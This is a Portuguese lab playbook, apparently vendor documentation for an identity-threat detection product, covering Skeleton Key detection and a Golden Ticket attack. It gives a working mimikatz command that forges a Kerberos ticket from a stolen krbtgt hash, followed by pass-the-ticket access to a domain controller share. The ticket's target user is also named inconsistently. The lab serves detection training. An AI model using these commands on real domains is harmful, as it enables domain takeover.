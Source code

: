 ### <a name="skeleton-key-attack-detection-in-product-short"></a>Detecção de ataque de Skeleton Key no [!INCLUDE [Product short](includes/product-short.md)]

O que o [!INCLUDE [Product short](includes/product-short.md)] detectou e informou enquanto tudo isso estava ocorrendo?

![Ataque de Skeleton Key detectado por [!INCLUDE [Product short](includes/product-short.md)]](media/playbook-dominance-skeletonkey_detected.png)

O [!INCLUDE [Product short](includes/product-short.md)] detectou o método de criptografia de pré-autenticação suspeito usado para esse usuário.

### <a name="golden-ticket---existing-user"></a>Golden Ticket - Usuário existente

Depois de roubar o "Golden Ticket", (conta "krbtgt" explicada [aqui por meio da Replicação mal-intencionada](#malicious-replication)), um invasor é capaz de assinar tíquetes *como se fosse o controlador de domínio*. **Mimikatz** , o SID do Domínio e a conta "krbtgt" roubada são necessários para realizar esse ataque. Além de podermos gerar tíquetes para um usuário, podemos gerar tíquetes para usuários que nem existem.

1. Como DiogoM, execute o comando abaixo no **VictimPC** para adquirir o SID do domínio:

   ```dos
   whoami /user
   ```

    ![SID para usuário do golden ticket](media/playbook-dominance-golden_whoamisid.png)

1. Identifique e copie o SID do Domínio realçado na captura de tela acima.

1. Com **mimikatz** , use o SID de Domínio copiado, junto com o hash NTLM do usuário do "krbtgt" roubado para gerar o TGT. Insira o texto a seguir em um cmd.exe como DiogoM:

   ```dos
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

    ![Gerar o Golden ticket](media/playbook-dominance-golden_generate.png)

   A parte `/ptt` do comando nos permitiu passar imediatamente o tíquete gerado para a memória.

1. Vamos verificar se a credencial está na memória.  Execute `klist` no console.

    ![Resultados do klist depois de passar o tíquete gerado](media/playbook-dominance-golden_klist.png)

1. Atuando como invasor, execute o seguinte comando Pass-the-Ticket para usá-lo no controlador de domínio:

   ```dos
   dir \\ContosoDC\c$
   ```

   Êxito! Você gerou um Golden Ticket **falso** para YasminC.
